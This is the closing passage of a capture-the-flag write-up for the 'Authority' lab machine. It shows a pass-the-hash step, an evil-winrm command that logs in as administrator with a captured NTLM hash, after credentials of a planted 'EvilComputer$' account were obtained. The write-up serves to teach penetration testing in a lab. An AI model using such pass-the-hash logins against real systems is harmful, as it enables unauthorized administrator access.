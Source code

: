 ![image-22.png](/assets/img/Authority/image-22.png)

> Notice how we also see the credential material of `EvilComputer$` that we added to the domain!
{: .prompt-tip } 

Now we can simply pass the NTLM hash and connect via `WinRM` as administrator\!

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ evil-winrm -i authority.htb -u administrator -H 6961f422924da90a6928197429eea4ed
```

![image-6.png](/assets/img/Authority/image-6.png)

With `root.txt`, we have pwned the box\!
